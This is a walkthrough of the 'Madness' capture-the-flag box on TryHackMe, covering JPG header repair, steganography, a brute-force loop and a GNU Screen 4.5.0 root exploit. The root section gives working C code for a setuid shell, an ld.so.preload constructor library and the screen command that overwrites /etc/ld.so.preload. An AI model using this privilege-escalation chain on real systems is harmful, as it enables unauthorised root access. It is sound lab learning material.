


# 'Madness' box writeup

## Madness is a CTF box created by optional and available on the [TryHackMe platform](https://tryhackme.com)

## Read about [JPG Signature Format: Documentation & Recovery Example](https://www.file-recovery.com/jpg-signature-format.htm), [GNU Screen escalation](https://seclists.org/oss-sec/2017/q1/184), [ld.so man page](https://man7.org/linux/man-pages/man8/ld.so.8.html) and [ld.so.preload](https://superuser.com/questions/1183037/what-is-does-ld-so-preload-do)


## Foothold

+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.94.80``

+ **We observe 2 open ports, ssh and an http, the last one with an Apache service**


+ **Opening the web-site, we can view an Apache2 Default Page, but looking into the source-code of the page, we observe something interesting**


**There's a comment through the lines** ``They will never find me`` **and an image above, so it's obvious that the image it's a path to go on. Let's get that image into our machine**

``wget http://10.10.94.80/thm.jpg``

+ **Opening the image, we have a quite little problem:**

``The image “file://x/Madness/thm.jpg” cannot be displayed because it contains errors.``

**Let's look into the content of our image. It looks like our output says that our image is in PNG format. Maybe someone changed the image format.**



+ **Furthermore, reading the [JPEG Signature](https://www.file-recovery.com/jpg-signature-format.htm) article, we can spot this: *JPEG files (compressed images) start with an image marker that always contains the tag code hex values FF D8 FF.* Let's take a look into our image header in hex format, using hexdump**

``hexdump thm.jpg | head -1``


**We can clearly see the first bytes are modified, but we can change them using the hexedit tool. Let's modify the first 2 hex sequences values with:**

``FF D8 FF E0   00 10 4A 46``

``hexedit thm.jpg``


**Opening our image now, we can see a font which tells us a hidden dir exists on our web server.**

``xdg-open thm.jpg``


+ **Let's take a look into that directory and see what's going on**


**It seems like our mad friend wants to guess his secret .. But since i'm not a good guesser, let's take a look into the source code of the page.**


**He left some unwanted text inside. We know now, that the secret is between 0 and 99, but in the same time, looking into the page we see that there was already a secret entered. Maybe it's a parameter of the page we could enter; let's go on:  + !! don't forget to modify the url and include the hidden found directory.**

``http://10.10.94.80/x/?secret=2``


**Our secret seems to be entered and read inside the page, so let's go ahead and create a mini brute-force script to check 100 possible variants.**

+ **I'm gonna use curl to get my requests and page data and i will write a shell script**

```bash
#!/bin/bash

for i in {0..99}
do
        # modify the ip address below and the hidden directory that you found
        curl --silent http://10.10.94.80/x/?secret=$i | grep right >> /dev/null

        if [ $? -eq 0 ]
        then
                echo "$i is our SECRET page"
                # modify the ip address below and the hidden directory that you found
                curl --silent http://10.10.94.80/x/?secret=$i
                break;
        else
                echo "Secret $i is wrong"
        fi
done

```

**Let's make it executable too and let's run it!**

``chmod a+x secret_guess.sh``

``./secret_guess.sh``


## User escalation

+ **We received a message which maybe will help us to decrypt something. After more enumeration, we find out the** thm.jpg **file seems to contain some data inside. We will use steghide to extract the stego image; the passphrase will be the message received**

``steghide --extract -sf thm.jpg``


**The image contained a file named** hidden.txt **and, reading it we'll find the username. But, it seems to be encoded with a rot13 cipher, so let's decode it**

``echo "xxxxx" |  tr 'A-Za-z' 'N-ZA-Mn-za-m'``

+ **We have the username, but we have no password so we can connect to the ssh. Continuing the enumeration and considering the predomination of images in this box, we have one image that we probably skipped: the one inside the tryhackme platform.**


**Let's extract this image too and see what's inside.**

``steghide --extract -sf 5iW7kC8.jpg``


+ **We got out password now, so let's connect to ssh**

``ssh youfoundme@10.10.94.80``


**We found our first user flag inside our home directory. Let's move on to the root flag.**

## Root escalation

+ **Let's start searching for some SUID files**

``find / -perm /4000 2>/dev/null``



**We can see the** */bin/screen-4.5.0* **and** */bin/screen-4.5.0.old* **both having SUID permission. Reading the [GNU Screen escalation](https://seclists.org/oss-sec/2017/q1/184) request, we can follow up instructions and see that we can open the logfile with root privileges, this meaning we can create a file, owned by root, which can contain anything. Let's check it out**

``cd /etc``

``screen -D -m -L test echo "just testing"``

``ls -l test``


+ **And the file owner is root. Let's exploit this vulnerability. First, let's create a C program so we can generate a root shell and compile it. We're gonna create it in the /tmp directory**

```C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
 // set user as root;
 setuid(0);
 setgid(0);
 seteuid(0);
 setegid(0);

 // spawn a shell;
 system("/bin/bash");
}
```

``gcc root_sh.c -o root_sh``

+ **We have to make another little thing; if we run the executable, we'll do it as our user. So we need to change the ownership and permission of the file so we can run it as root. To do this, we'll create a dynamic library file and then compile it. Create it into the /tmp directory too.**

```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>

__attribute__ ((__constructor__))

void libshell(void)
{
    chown("/tmp/root_sh", 0, 0);
    chmod("/tmp/root_sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] shell loaded!\n");
}
```

``gcc -fPIC -shared -ldl /tmp/lib_shell.c -o /tmp/lib_shell.so``

+ **What we need to do now is to overwrite the /etc/ld.so.preload file with our shared library** *shell_library.so* **which executes the shell with root privilege. Let's first move into the /etc directory**

``cd /etc``

``screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/lib_shell.so"``

``screen -ls``

``/tmp/root_sh``

**And we are root!**


+ **This was a very nice box, we learnt about .JPG corrupted files, a GNU Screen vulnerability, some ld.so.preload file overwriting to gain the desired shell and I encourage you hardly to read the [ld.so man page](https://man7.org/linux/man-pages/man8/ld.so.8.html).**
